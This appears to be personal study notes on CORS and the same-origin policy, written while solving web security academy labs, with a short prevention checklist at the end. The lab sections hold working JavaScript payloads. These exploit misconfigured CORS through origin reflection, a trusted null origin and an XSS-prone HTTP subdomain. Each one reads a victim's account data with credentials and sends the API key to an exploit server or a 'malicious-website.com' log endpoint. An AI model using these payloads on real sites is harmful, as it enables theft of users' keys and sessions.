 
- CORS relaxes the **same-origin policy (SOP)**. Misconfigured CORS policies lead to information leaks, authentication bypass and account takeover.

#### Same-Origin Policy

- The same-origin policy is a restrictive cross-origin specification that limits the ability for a website to interact with resources outside of the source domain.
- It generally allows a domain to issue requests to other domains, but not to access the responses.
- Cross-origin loading of page resources is generally permitted. For example, the SOP allows embedding of images via the `<img>` tag, media via the `<video>` tag and JavaScript via the `<script>` tag. However, while these external resources can be loaded by the page, any JavaScript on the page won't be able to read the contents of these resources.
- Cookies are often accessible from all subdomains of a site even though each subdomain is technically a different origin. You can partially mitigate this risk using the `HttpOnly` cookie flag.

![[Schermata del 2024-11-19 14-57-24.png]]

- A script from page A can access data from page B only if the pages are on the same origin.
- SOP protects cookies (like session cookies).

## How does CORS work?

- The cross-origin resource sharing protocol uses a suite of HTTP headers that define trusted web origins and associated properties such as whether authenticated access is permitted.
- The `Access-Control-Allow-Origin` header is included in the response from one website to a request originated from another website and identifies the permitted origin of the request. A web browser compares the Access-Control-Allow-Origin with the requesting website's origin and permits access to the response if they match.
- Usually when we send a request from a website `normal-website.com` to another domain `robust-website.com` the browser puts in the request the following header to make the server know what's the *origin* of the request:

```http
Origin: https://normal-website.com
```

The request would be like this:

```http
GET /data HTTP/1.1
Host: robust-website.com 
Origin: https://normal-website.com
```

If `robust-website.com` uses SOP, then its response is dropped when arrives at the web browser.
If instead it uses CORS, the server on `robust-website.com` returns the following response:

```http
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
```

The browser will allow code running on `normal-website.com` to access the response because the origins match.

The specification of `Access-Control-Allow-Origin` allows for multiple origins, or the value `null`, or the wildcard `*`. But `Access-Control-Allow-Origin` equal to `*` disables access to credentials, hence we can't use `Access-Control-Allow-Credential` in this case. 

- The default behavior of cross-origin resource requests is for requests to be passed without credentials like cookies and the Authorization header. However, the cross-domain server can permit reading of the response when credentials are passed to it by setting the CORS `Access-Control-Allow-Credentials` header to true.

###### Request
```http
GET /data HTTP/1.1 
Host: robust-website.com 
... 
Origin: https://normal-website.com 
Cookie: JSESSIONID=<value>
```
###### Response
```http
HTTP/1.1 200 OK 
... 
Access-Control-Allow-Origin: https://normal-website.com 
Access-Control-Allow-Credentials: true
```

## Vulnerabilities and common mistakes

###### Lab: CORS vulnerability with basic origin reflection 

```html
<script>  
fetch('https://0afa00b803fd481c83315b74001800f2.web-security-academy.net/accountDetails', {credentials:'include'})  
.then(r => r.json())  
.then(j => j.apikey)  
.then(key => new Image().src = 'https://exploit-0a8400fa03dc48d983915a59015a001f.exploit-server.net/landing?key=' + key)  
</script>
```

or: 
```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; 
req.send();

function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
};
</script>
```

#### Whitelisted null origin value

The Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:

- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sandboxed cross-origin requests.

Some applications might whitelist the `null` origin to support local development of the application. 
In this situation, an attacker can use various tricks to generate a cross-origin request containing the value `null` in the Origin header. This will satisfy the whitelist, leading to cross-domain access.

##### Lab: CORS vulnerability with trusted null origin

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script> 
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send(); 
function reqListener() { 
location='malicious-website.com/log?key='+this.responseText; 
}; 
</script>"></iframe>
```

or:

```html
<iframe sandbox='allow-scripts' srcdoc="  
<script>  
fetch('https://0a410099045171e580469e84007f0045.web-security-academy.net/accountDetails', {credentials:'include'})  
.then(r => r.json())  
.then(j => j.apikey)  
.then(key => new Image().src = 'https://exploit-0a6f009f04b871d680409dd001e90071.exploit-server.net/landing?key=' + key)  
</script>  
"></iframe>
```

#### Exploiting XSS via CORS trust relationships

If a website trusts an origin that is vulnerable to cross-site scripting ([[XSS (Cross-Site Scripting)]]), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

#### Breaking TLS with poorly configured CORS

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP.
In this situation, an attacker who is in a position to intercept a victim user's traffic (*man-in-the-middle attack*) can exploit the CORS configuration to compromise the victim's interaction with the application.

##### Lab: CORS vulnerability with trusted insecure protocols

```html
<script>  
location = 'http://stock.0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/?storeId=1&productId=<script>' +  
`fetch('https://0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/accountDetails', {credentials:'include'}).then(r => r.json()).then(j => j.apikey).then(key => new Image().src = 'https://exploit-0abc00170467a065818e42b2012e0081.exploit-server.net/landing?key=' %2B key)` +  // don't forget to URLEncode the + (otherwise, it is a space)  
'<' + '/script>'  // or encode the < as %3C  
</script>
```

Here, we've found a HTTP subdomain `http://stock.0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/?storeId=1&productId=1` where `productId` suffers of XSS and the main domain `https://0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/` CORS configuration accepts requests from the vulnerable stock subdomain. Hence, we can inject code (XSS) that forces the victim to make a request from the stock subdomain to the main domain, making the victim unconsciously sending us the apiKey.

## Prevention

- Specify the Access-Control-Allow-Origin header if the response contains sensitive data
- Think if you really need `Access-Control-Allow-Origin: *`
- Double think if you really need `Access-Control-Allow-Credentials: true`
- Use allow lists
- Don’t allow the origin null